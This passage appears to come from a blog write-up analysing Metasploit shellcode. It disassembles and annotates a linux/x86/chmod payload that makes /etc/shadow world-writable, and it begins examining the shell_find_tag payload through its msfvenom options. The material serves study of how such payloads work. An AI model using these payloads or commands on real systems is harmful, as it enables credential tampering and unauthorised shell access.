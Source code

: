 Let's break down each part of the Assembly to see what it does:

{% highlight js %}
00000000  99                cdq ;edx = 0x00000000
00000001  6A0F              push byte +0xf ;push 15 on the stack
00000003  58                pop eax ;set eax = 15, #define __NR_chmod 15
00000004  52                push edx; push edx to the stack
00000005  E80C000000        call 0x16 ;call the part where the filename set
{% endhighlight %}

The following part of the code is the filename to chmod, currently set as "/etc/shadow".

{% highlight js %}
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
{% endhighlight %}

![assignment5-6](https://bohansec.com/assets/assignment5-6.PNG "assignment5-6")

Based on chmod syscall [page](https://www.man7.org/linux/man-pages/man2/chmod.2.html){:target="_blank"}, the chmod takes pathname and mode as two arguments. 

{% highlight js %}
00000016  5B                pop ebx; set the filename as the "/etc/shadow"
00000017  68B6010000        push dword 0x1b6 
0000001C  59                pop ecx ;set ebx to hex 0x1b6 which is 0666 in octal
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1 ;exit the program
00000021  58                pop eax
00000022  CD80              int 0x80
{% endhighlight %}

### linux/x86/shell_find_tag

Show all the available options for this payload to get a general idea what it does:

{% highlight js %}
kali@kali:~$ msfvenom -p linux/x86/shell_find_tag -f raw  --list-options
Options for payload/linux/x86/shell_find_tag:
=========================


       Name: Linux Command Shell, Find Tag Inline
     Module: payload/linux/x86/shell_find_tag
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 69
       Rank: Normal

Provided by:
    skape <mmiller@hick.org>

Description:
  Spawn a shell on an established connection (proxy/nat safe)



Advanced options for payload/linux/x86/shell_find_tag:
=========================

    Name                        Current Setting  Required  Description
    ----                        ---------------  --------  -----------
    AppendExit                  false            no        Append a stub that executes the exit(0) system call